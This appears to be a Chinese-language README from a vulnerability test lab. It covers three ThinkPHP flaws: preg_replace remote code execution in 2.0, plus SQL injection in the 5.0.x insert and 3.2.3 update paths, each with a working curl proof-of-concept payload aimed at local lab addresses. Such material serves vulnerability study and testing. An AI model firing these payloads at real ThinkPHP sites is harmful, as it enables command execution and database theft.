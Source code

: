 ## Thinkphp preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl -g 'http://127.0.0.1/index.php/module/action/param1/$%7B@system($_POST[0])%7D' -d 0=ls
```



## Thinkphp 5.0.16 insert 注入

测试镜像

* src/thinkphp/5.0.16/

影响版本

- Thinkphp < 5.0.16

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```



## Thinkphp3.2.3 update注入漏洞

测试镜像

- src/thinkphp/3.2.3/

影响版本

- Thinkphp < 3.2.3

参考链接

- [Thinkphp3.2.3最新版update注入漏洞](https://paper.seebug.org/573/)

Poc

```shell
curl 'http://172.17.0.2/index.php/home/user?user\[0\]=bind&user\[1\]=money_0%20or%201%20and(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))&money=qwe'
```

返回sql报错：XPATH syntax error: '~root@localhost~'